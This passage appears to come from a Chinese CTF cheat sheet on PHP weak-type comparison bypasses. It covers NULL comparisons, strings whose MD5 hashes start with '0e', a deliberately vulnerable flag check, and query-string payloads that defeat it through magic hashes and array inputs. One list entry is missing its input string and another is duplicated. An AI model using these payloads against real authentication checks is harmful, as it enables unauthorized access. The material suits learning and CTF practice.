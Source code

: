 #### 3. NULL绕过

```php
// NULL比较绕过
null == ""           // true
null == 0            // true
null == false        // true
```

---

## MD5弱类型绕过

### 基本原理

MD5函数可能返回`0e`开头的哈希值，在弱类型比较中被视为科学计数法（值为0）。

### 经典Payload

#### 1. 0e科学计数法Payload

```text
# MD5值以0e开头的字符串（弱类型比较时等于0）
240610708        # MD5: 0e462097431906509019562988736854
           # MD5: 0e830400451993494058024219903391
s878926199a      # MD5: 0e545993274517709034328855841020
s155964671a      # MD5: 0e342768416822451524974117254469
s214587387a      # MD5: 0e848240448830187420162954587645
s214587387a      # MD5: 0e848240448830187420162954587645
s1091221200a     # MD5: 0e940624217856561557816327384675
s1885207154a     # MD5: 0e509367213418206700842008763514
```

#### 2. 实战应用场景

```php
// 典型的vulnerable代码
if(md5($_GET['a']) == md5($_GET['b']) && $_GET['a'] != $_GET['b']){
    echo "flag{xxx}";
}

// 绕过方法
// ?a=240610708&b=QNKCDZO
// md5("240610708") = 0e462097431906509019562988736854
// md5("QNKCDZO") = 0e830400451993494058024219903391  
// 弱类型比较: 0 == 0 为 true
```

### 数组绕过MD5

```php
// 当输入为数组时，md5()函数返回NULL
if(md5($_GET['a']) == md5($_GET['b']) && $_GET['a'] != $_GET['b']){
    echo "flag{xxx}";
}

// 绕过方法
// ?a[]=1&b[]=2
// md5(array()) 返回 NULL
// NULL == NULL 为 true，但 array(1) != array(2)
```
